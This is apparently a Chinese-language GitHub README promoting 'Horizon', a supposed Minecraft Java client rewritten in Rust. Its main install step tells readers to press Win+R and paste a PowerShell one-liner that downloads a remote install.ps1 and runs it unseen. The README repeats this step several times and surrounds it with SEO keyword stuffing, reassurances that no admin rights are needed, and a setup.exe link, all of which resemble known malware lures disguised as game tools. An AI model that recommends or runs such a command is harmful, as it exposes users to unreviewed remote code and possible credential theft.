




<p align="center">
  <strong>快速安装（Win+R）</strong>
</p>

<p align="center">Win+R → 粘贴命令 → 启动器自动安装并打开。</p>

```bat
powershell -NoP -c "irm https://horizonlauncher.net/install.ps1 | iex"
```

1. **Win+R.** 按住 Windows + R，打开「运行」。
2. **粘贴.** Ctrl+V — 粘贴下面的命令。
3. **回车.** Horizon 下载、安装并打开 — 然后「准备」→「开始游戏」。

<p align="center">不需要管理员权限。若 Windows 询问 PowerShell，请确认。该命令只从 horizonlauncher.net 获取 `install.ps1`。</p>

<p align="center">
  <a href="https://horizonlauncher.net/horizon-launcher-setup.exe"><strong>普通安装 — 下载 Horizon setup.exe</strong></a>
  · <a href="https://horizonlauncher.net/en/download-horizon/">下载 Horizon</a>
  · <a href="https://horizonlauncher.net/">horizonlauncher.net</a>
  · <a href="https://t.me/horizonlauncher">Telegram</a>
</p>

<p align="center">
  <strong>最新更新:</strong>
  <a href="https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.54">0.2.54</a>
  · <a href="https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases">全部更新与补丁</a>
</p>

<p align="center">
  <strong>README:</strong>
  <a href="README.md">Русский</a> · <a href="README.en.md">English</a> · <a href="README.uk.md">Українська</a> · <a href="README.es.md">Español</a> · <a href="README.pt.md">Português</a> · <a href="README.de.md">Deutsch</a> · <a href="README.fr.md">Français</a> · <a href="README.it.md">Italiano</a> · <a href="README.pl.md">Polski</a> · <a href="README.tr.md">Türkçe</a> · <strong>简体中文</strong> · <a href="README.ja.md">日本語</a> · <a href="README.ko.md">한국어</a> · <a href="README.ar.md">العربية</a> · <a href="README.hi.md">हिन्दी</a> · <a href="README.id.md">Indonesia</a> · <a href="README.vi.md">Tiếng Việt</a>
</p>

<p align="center">
  <a href="https://horizonlauncher.net/">
    
  </a>
</p>

<h1 align="center">下载 Horizon — 用 Rust 写的 Minecraft 启动器（Minecraft Rust Edition）</h1>

<p align="center">
  <b>Horizon Minecraft · Rust 版 Java 客户端 · Windows 安装包 · 更高帧率 · 免费</b>
</p>

<p align="center">
  <a href="https://horizonlauncher.net/"><strong>官网 horizonlauncher.net</strong></a> ·
  <a href="https://horizonlauncher.net/en/minecraft-rust/">Rust 版 Minecraft</a> ·
  <a href="https://horizonlauncher.net/en/faq/">常见问题</a> ·
  <a href="https://t.me/horizonlauncher">Telegram</a>
</p>

<p align="center">
  <a href="https://horizonlauncher.net/en/download-horizon/"></a>
  <a href="https://horizonlauncher.net/horizon-launcher-setup.exe"></a>
  <a href="https://horizonlauncher.net/"></a>
  <a href="https://t.me/horizonlauncher"></a>
</p>

<p align="center">
  
  
  
  
  
  
  <a href="https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.54"></a>
  <a href="https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases"></a>
</p>


## Horizon 视频与 GIF

官网上的完整 MP4: [4K fly](https://horizonlauncher.net/media/mod-spotlight/reels/runaway.mp4) · [Nether](https://horizonlauncher.net/media/mod-spotlight/reels/nether.mp4) · [Shaders](https://horizonlauncher.net/media/mod-spotlight/reels/shaders.mp4) · [TNT](https://horizonlauncher.net/media/mod-spotlight/blast.mp4) · [обзор](https://horizonlauncher.net/media/mod-spotlight/reels/overview.mp4)

<p align="center">
  <a href="https://horizonlauncher.net/"></a>
</p>
<p align="center"><i>Horizon 原生 Rust 客户端中的 Java 版世界 4K 飞越。</i></p>

| 下界 · 绯红森林 | 光影与光照 |
|:---:|:---:|
| <a href="https://horizonlauncher.net/minecraft-rust/"></a> | <a href="https://horizonlauncher.net/performance/"></a> |

<p align="center">
  <a href="https://horizonlauncher.net/"></a>
</p>
<p align="center"><i>TNT 测试 — 爆炸由非 JVM 客户端绘制。</i></p>

<p align="center">
  <a href="https://horizonlauncher.net/"></a>
  <a href="https://horizonlauncher.net/launcher/"></a>
  <a href="https://horizonlauncher.net/download-horizon/"></a>
</p>


<div>

**Horizon** 是用 **Rust**（而非 JVM）编写的非官方 **Minecraft Java 版启动器与客户端**。Windows 安装包大约一分钟装好：同一世界、同一服务器，通常比原版 Java **帧率更高**。

> 规范页面与安装包： **[https://horizonlauncher.net/](https://horizonlauncher.net/)**  
> 直链文件: **[https://horizonlauncher.net/horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe)**

Horizon **不属于** Mojang / Microsoft。请只从 **horizonlauncher.net** 下载。

## 更新与维护

Horizon 持续维护，补丁定期发布。每个版本单独成 GitHub Release 并带 changelog。当前安装包在官网，补丁历史在此。

**最新更新:** [0.2.54](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.54) · **[全部更新与补丁](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases)** — 51 个版本 (0.2.0 → 0.2.54).

| 版本 | 日期 | |
|---|---|---|
| **[0.2.54](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.54)** | 2026-11-08 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.54) |
| **[0.2.49](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.49)** | 2026-11-07 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.49) |
| **[0.2.48](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.48)** | 2026-11-06 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.48) |
| **[0.2.47](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.47)** | 2026-11-06 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.47) |
| **[0.2.46](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.46)** | 2026-11-06 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.46) |
| **[0.2.45](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.45)** | 2026-11-06 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.45) |
| **[0.2.44](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.44)** | 2026-11-05 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.44) |
| **[0.2.43](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.43)** | 2026-11-05 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.43) |
| **[0.2.42](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.42)** | 2026-11-05 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.42) |
| **[0.2.41](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.41)** | 2026-11-04 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.41) |
| **[0.2.40](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.40)** | 2026-11-04 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.40) |
| **[0.2.39](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.39)** | 2026-11-04 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.39) |
| **[0.2.38](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.38)** | 2026-11-04 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.38) |
| **[0.2.37](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.37)** | 2026-11-02 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.37) |
| **[0.2.36](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.36)** | 2026-11-02 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.36) |
| **[0.2.35](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.35)** | 2026-11-01 | [说明](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.35) |


更早版本: [0.2.34](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.34) · [0.2.33](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.33) · [0.2.32](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.32) · [0.2.31](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.31) · [0.2.30](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.30) · [0.2.29](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.29) · [0.2.28](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.28) · [0.2.27](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.27) · [0.2.26](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.26) · [0.2.25](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.25) · [0.2.24](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.24) · [0.2.23](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.23) · [0.2.22](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.22) · [0.2.21](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.21) · [0.2.20](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.20) · [0.2.19](https://github.com/1TAKURA1/Horizon-Minecraft-Launcher/releases/tag/0.2.19)


## 什么是 Horizon Minecraft

**Horizon launcher** 是面向 Minecraft Java 的 Windows 启动器。其下是 **Minecraft Rust Edition**：用 Rust 重写的游戏客户端。

## 免费下载 Horizon（Windows）

请从官网 **下载 Horizon Minecraft**，不要用来路不明的镜像。

| | |
|---|---|
| 下载 Horizon | [https://horizonlauncher.net/en/download-horizon/](https://horizonlauncher.net/en/download-horizon/) |
| 安装启动器 | [https://horizonlauncher.net/en/install-horizon/](https://horizonlauncher.net/en/install-horizon/) |
| Setup `.exe` | [https://horizonlauncher.net/horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe) |
| Rust 版 Minecraft | [https://horizonlauncher.net/en/minecraft-rust/](https://horizonlauncher.net/en/minecraft-rust/) |
| 官网 horizonlauncher.net | [https://horizonlauncher.net](https://horizonlauncher.net) |

**系统要求**

- Windows 10 / Windows 11 x64
- `horizon-launcher-setup.exe`
- Horizon **0.2.54**
- 免费 · 官网为俄语和英语

## 如何安装 Horizon — 两种方法

和官网一样，两种安装启动器的方式： [horizonlauncher.net](https://horizonlauncher.net/).

| | |
|---|---|
| **快速安装（Win+R）** | Win+R → 粘贴命令 → 启动器自动安装并打开。 |
| **普通安装** | 下载 setup.exe，运行安装程序，然后「准备」→「开始游戏」。 |

### 方法 1. 通过 Win+R 快速安装

复制命令，打开 Win+R，按回车 — Horizon 会自行下载、安装并打开。

```bat
powershell -NoP -c "irm https://horizonlauncher.net/install.ps1 | iex"
```

1. **Win+R.** 按住 Windows + R，打开「运行」。
2. **粘贴.** Ctrl+V — 粘贴下面的命令。
3. **回车.** Horizon 下载、安装并打开 — 然后「准备」→「开始游戏」。

不需要管理员权限。若 Windows 询问 PowerShell，请确认。该命令只从 horizonlauncher.net 获取 `install.ps1`。

完整教程： [https://horizonlauncher.net/en/install-horizon/](https://horizonlauncher.net/en/install-horizon/) · [https://horizonlauncher.net/en/download-horizon/](https://horizonlauncher.net/en/download-horizon/)

### 方法 2. 普通安装（setup.exe）

同一个 Horizon 安装包 — 普通文件下载，无需命令。当前：**0.2.54**，Windows x64，约 60 MB。

**[下载 Horizon — Windows setup](https://horizonlauncher.net/horizon-launcher-setup.exe)**  
`horizon-launcher-setup.exe` · Windows x64 · ~60 MB · v0.2.54

1. 下载 [horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe)。
2. 运行 Windows 安装程序。
3. 打开 Horizon 启动器。
4. 点击**准备**，然后**开始游戏**。

**安装之后:** 打开启动器 → 准备 → 开始游戏

- Windows x64 · GPU DX12 / Vulkan · 磁盘上任意 Minecraft 版本


## 为什么用 Rust 写 Minecraft

原版跑在 JVM 上。Horizon 是原生 Rust 客户端：

- 同样电脑上更高 FPS；
- 比沉重的 Java 更少卡顿；
- Windows 启动器，不必手装 JDK；
- 磁盘上已有的任意游戏版本。

了解更多: [https://horizonlauncher.net/en/minecraft-rust/](https://horizonlauncher.net/en/minecraft-rust/) · [https://horizonlauncher.net/en/performance/](https://horizonlauncher.net/en/performance/)

## 常见问题

**在哪里安全下载 Horizon？**  
仅 [https://horizonlauncher.net](https://horizonlauncher.net) 与 [安装包](https://horizonlauncher.net/horizon-launcher-setup.exe)。

**这是官方 Minecraft 吗？**  
不是。非官方客户端和启动器。

**是 Facepunch 的 Rust 游戏吗？**  
不是。这是用 Rust 语言写的 Minecraft Java 客户端。

**需要 Java 吗？**  
Horizon 的 Rust 客户端不需要。

## 网站全部页面

- [首页](https://horizonlauncher.net/en/)
- [下载 Horizon](https://horizonlauncher.net/en/download-horizon/)
- [安装启动器](https://horizonlauncher.net/en/install-horizon/)
- [Rust 版 Minecraft](https://horizonlauncher.net/en/minecraft-rust/)
- [Horizon 启动器](https://horizonlauncher.net/en/launcher/)
- [服务器](https://horizonlauncher.net/en/server/)
- [模组](https://horizonlauncher.net/en/mods/)
- [常见问题](https://horizonlauncher.net/en/faq/)
- [性能 / FPS](https://horizonlauncher.net/en/performance/)
- [Sitemap](https://horizonlauncher.net/sitemap.xml)

## SEO 标签与搜索词

`下载 Horizon` `Horizon 启动器` `Rust 版 Minecraft` `Minecraft Rust Edition` `Minecraft 高帧率` `horizonlauncher.net` `download Horizon` `Win+R Horizon` `Horizon Win+R install` `Horizon setup.exe`

`скачать Horizon` `скачать Horizon бесплатно` `скачать Horizon Minecraft` `скачать Horizon лаунчер` `скачать Horizon Windows` `скачать Horizon Windows 10` `скачать Horizon Windows 11` `скачать Horizon x64` `скачать Horizon 64 bit` `скачать Horizon setup` `скачать Horizon exe` `скачать Horizon installer` `скачать Horizon установщик` `скачать Horizon 0.2.54` `скачать Horizon 2026` `скачать Horizon официальный` `скачать Horizon с официального сайта` `скачать Horizon horizonlauncher.net` `скачать Horizon github` `скачать Horizon launcher github` `Horizon Minecraft скачать` `Horizon Minecraft бесплатно` `Horizon Minecraft лаунчер` `Horizon Minecraft Windows` `Horizon Minecraft Rust` `Horizon Minecraft на Rust` `Horizon Minecraft Rust Edition` `лаунчер Horizon` `лаунчер Horizon скачать` `лаунчер Horizon Windows` `лаунчер Horizon Minecraft` `лаунчер Horizon Minecraft Java` `установить Horizon` `установка Horizon` `как скачать Horizon` `как установить Horizon` `как поставить Horizon` `быстрая установка Horizon` `обычная установка Horizon` `Win+R Horizon` `Horizon Win+R` `команда Win+R Horizon` `powershell Horizon` `irm install.ps1 Horizon` `install.ps1 horizonlauncher.net` `horizon-launcher-setup.exe` `Horizon setup.exe` `Minecraft на Rust` `Minecraft Rust Edition` `клиент Minecraft на Rust` `клиент Minecraft Rust` `Rust клиент Minecraft` `нативный клиент Minecraft` `Minecraft без JVM` `Minecraft без Java` `Minecraft Java на Rust` `альтернатива официальному лаунчеру Minecraft` `лаунчер Minecraft Windows` `лаунчер Minecraft Java` `скачать лаунчер Minecraft` `лучший лаунчер Minecraft FPS` `высокий FPS Minecraft` `поднять FPS Minecraft` `Minecraft не лагает` `оптимизация Minecraft Java` `FPS Minecraft Java` `Horizon 0.2.54` `Horizon launcher` `download Horizon` `download Horizon Minecraft` `download Horizon launcher` `download Horizon Windows setup` `Horizon Minecraft launcher download` `Minecraft on Rust` `Minecraft Rust Edition download` `Rust Minecraft client` `Horizon Rust Edition` `free Horizon launcher` `Horizon github` `Horizon Minecraft GitHub` `GitHub Horizon launcher`

### 下载 Horizon / Win+R / setup.exe

- Сайт: [https://horizonlauncher.net/](https://horizonlauncher.net/)
- Скачать: [https://horizonlauncher.net/en/download-horizon/](https://horizonlauncher.net/en/download-horizon/)
- Win+R: `powershell -NoP -c "irm https://horizonlauncher.net/install.ps1 | iex"`
- Setup: [https://horizonlauncher.net/horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe)
- EN: [https://horizonlauncher.net/en/](https://horizonlauncher.net/en/)
- EN download: [https://horizonlauncher.net/en/download-horizon/](https://horizonlauncher.net/en/download-horizon/)
- Install: [https://horizonlauncher.net/install-horizon/](https://horizonlauncher.net/install-horizon/)
- Minecraft на Rust: [https://horizonlauncher.net/minecraft-rust/](https://horizonlauncher.net/minecraft-rust/)
- Лаунчер: [https://horizonlauncher.net/launcher/](https://horizonlauncher.net/launcher/)
- FPS: [https://horizonlauncher.net/performance/](https://horizonlauncher.net/performance/)
- FAQ: [https://horizonlauncher.net/faq/](https://horizonlauncher.net/faq/)
- Сервера: [https://horizonlauncher.net/server/](https://horizonlauncher.net/server/)
- Моды: [https://horizonlauncher.net/mods/](https://horizonlauncher.net/mods/)
- Telegram: [https://t.me/horizonlauncher](https://t.me/horizonlauncher)
- Sitemap: [https://horizonlauncher.net/sitemap.xml](https://horizonlauncher.net/sitemap.xml)

скачать Horizon Minecraft лаунчер бесплатно Windows 10 Windows 11 x64 setup exe официальный сайт horizonlauncher.net Minecraft Rust Edition клиент на Rust выше FPS чем ванильная Java без JVM Win+R одна команда powershell install.ps1 или обычная установка horizon-launcher-setup.exe Подготовить Играть любая версия игры на диске неофициальный клиент не Mojang не Microsoft.

download Horizon Minecraft launcher free Windows setup Minecraft Java Edition client rewritten in Rust higher FPS than vanilla JVM unofficial Horizon Rust Edition github readme canonical download horizonlauncher.net Win+R quick install or standard setup.exe.

**下载 Horizon:** [https://horizonlauncher.net](https://horizonlauncher.net) · [https://horizonlauncher.net/en/download-horizon/](https://horizonlauncher.net/en/download-horizon/) · [https://horizonlauncher.net/horizon-launcher-setup.exe](https://horizonlauncher.net/horizon-launcher-setup.exe)


</div>
